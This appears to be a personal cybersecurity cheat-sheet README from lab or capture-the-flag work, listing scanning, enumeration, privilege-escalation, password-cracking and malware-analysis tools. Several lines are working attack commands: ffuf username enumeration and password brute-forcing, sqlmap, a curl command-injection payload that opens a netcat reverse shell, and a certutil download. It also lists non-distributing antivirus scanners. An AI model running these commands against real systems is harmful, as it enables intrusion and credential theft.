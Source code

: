 # CyberSecResources
List of tools/resources for Cybersecurity
## Resources
- https://github.com/khanhnnvn/CEHv10/blob/master/Labs/CEHv10%20Module%2006%20System%20Hacking.pdf

## Websites
### Web Scanner
  - Burpsuite
  - OWASP ZAP
  - Vega
  - nmap
  - nikto
  - uniscan
  - ffuf
    - ``` ffuf -w /path/to/wordlist -u https://target/FUZZ ```
    - ``` ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.134.222/customers/signup -mr "username already exists" ```
    - ``` ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.134.222/customers/login -fc 200 ```
  - ```sqlmap -u "http://example.com/login.php" --data "username=admin&password=test" --dbs```
  - PHP Filter Chaining (https://github.com/synacktiv/php_filter_chain_generator/tree/main)
    - How to use? https://exploit-notes.hdks.org/exploit/web/security-risk/php-filters-chain/
  - sudo mount -t cifs //target-IP/cyberq /mnt/cyberq -o guest
  - ```ldapsearch -x -h 10.10.10.25 -b "(objectclass=user)" | grep sAMAccountName```
  - ```nmap --script ldap-rootdse 10.10.10.0/24```

### Spiders & Path Traversal
- OWASP ZAP
- Burpsuite

## Privilege Escalation
### Linux
- LinPeas https://github.com/peass-ng/PEASS-ng
- DirtyCow https://github.com/firefart/dirtycow // https://github.com/firefart/dirtycow/blob/master/dirty.c
- linux-exploit-suggester
- https://www.revshells.com/
- Encode payload in URL
-     ```curl -s 'http://10.10.7.56/mbilling/lib/icepay/icepay.php' --get --data-urlencode 'democ=;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.9.0.186 4443 >/tmp/f;'```
  
### Windows
- BeRoot.exe
- WinPeas https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS
- PowerUp.ps1

### Crack Passwords (Windows)
- L0phtCrack7
- Mimikatz
- Crackmapexec
- pwdump7
- secretsdump.py

## Enumerate OS
- nmap
- enum4linux
- uniscan

## Find Exploit-db Exploits commands line
- searchsploit

## Malware Analysis
### Offline Malware Analysis

#### Static

##### File Fingerprinting
- MD5/SHA2 Message Digest 

##### String Search
- PE Studio
- FLOSS (Fire Eye) 
- Strings (Microsoft) 
- BinText

##### Packing/Obfuscation
- PEid (Find must common crypters, compilers and packer)
- DIE (Detect it Easy for ELF Malware)

##### Portable Executable information
- PE Explorer (EXE, ActiveX, DLL)

##### Identifying File Dependency
- Dependency Walker
- Virus Total

##### Malware Disassembly 
- IDA Pro
- Ghidra
- OllyDbg

### Malware Analysis Online
- https://hybrid-analysis.com/
- https://www.virustotal.com/
- https://whois.domaintools.com
https://toolbar.netcraft.com/site_report?url
- https://www.robtex.com
knockpy To discover subdomains

No Distribution of results
- https://nodistribute.com/ # Preferred
- https://antiscan.me/
- https://www.virscan.org/language/en/ # Not tested
- https://spyralscanner.net/

### Additional
- Cuckoo sandbox
- Virusshare.com
- Malware traffic analysis
- certutil.exe -urlcache -split -f "gttp://pstools.exe" pstools.exe

